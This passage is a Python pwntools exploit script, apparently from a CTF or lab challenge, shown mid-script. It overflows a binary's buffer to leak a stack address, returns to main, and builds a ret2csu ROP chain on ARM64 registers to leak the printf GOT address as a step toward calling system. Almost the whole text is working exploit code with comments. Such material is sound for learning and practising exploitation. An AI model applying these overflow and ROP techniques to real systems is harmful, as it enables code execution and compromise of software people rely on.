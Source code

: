 ```python
p.sendlineafter(b"message now: ",message)
p.clean()       

# Now run the message bof to leak stack
name = b"R"*0x8
name += p64(elf.symbols['vuln']+0x1c)    # This is the original rp, right after the read call
name += b"C"*0x28
name += p64(elf.symbols['main'])        # Ret 2 main for now
name += b"C"*0x37
p.sendline(name)
log.info(f"Hunting for {name[-10:]}")                 # Justthe last 10 bytes is  needed
p.readuntil(name[-10:] + b"\n")                 # Just the last 10 bytes is  needed - new line as a terminator
#STACK_LEAK = b"\n" + p.readuntil("\n; send", drop=True)     # Raw bytes of addr - we needed the \n as a delimieter in teh readuntil
STACK_LEAK =  p.readuntil("\n; send", drop=True)     # Raw bytes of addr - we needed the \n as a delimieter in teh readuntil
log.success(f"Leaked $sp : {STACK_LEAK}")
STACK_LEAK = STACK_LEAK.ljust(8, b"\x00")           # Pack out to full 64 bits
log.success(f"Leaked $sp : {STACK_LEAK}")
STACK_LEAK = u64(STACK_LEAK)                        # Unpack 64 bit addre
log.success(f"Leaked $sp : {hex(STACK_LEAK)}")
STACK_LEAK = STACK_LEAK - 0x148                     # subtract the offset found in GDB to get $sp
log.success(f"Leaked $sp : {hex(STACK_LEAK)}")

# The program is left in a weird state, because we printed the message prompt with our 
# Huge read, so let's just send a junk name to advance:
p.readuntil(b"now:")
p.sendline("Some message")  # Return back to main
p.readuntil(b"your name:")    # Continue back to vuln
p.sendline("Blackfell")

############ Phase 3 - Leak System Addr  #################

# Setup ret2csu args:
csu_popper = elf.symbols['__libc_csu_init']+104
csu_caller = elf.symbols['__libc_csu_init']+72
log.debug(f"{hex(csu_popper)=}")
log.debug(f"{hex(csu_caller)=}")
# Gadget list
rop_nop = PIE_BASE + 0x934  # Found with roppea

# build the message buffer
message = p64(rop_nop)
message += b"G"*0x20 # trigger overflow
message += p64(csu_popper)  # rp overwrite - call our ret2csu chain
message += b"J"*0x8         # popper reads sp into x29 and 30
message += p64(csu_caller)  # As above this will be x30
message += p64(0x00) # x19
message += p64(0x01) # x20
message += p64(STACK_LEAK)   #x21 - our stack leak - we can offset to our input and then set to rop_nop
message += p64(elf.got['printf']) #x22
message += b"L"*0x18        # x23 and x24 and x29
message += p64(elf.symbols['vuln']+ 0x2c) # This is the ret address - not PRINTF but instead vuln flush() then printf()

# This stuff isn't needed for the system leak, but csu popper is called twice during this phase, so we'll control
# Some registers we need to ret2system later:
message += p64(STACK_LEAK)
message += p64(STACK_LEAK)
message += b"\x00" * 0x8                   # zeros x21 during second csu popper pass
```
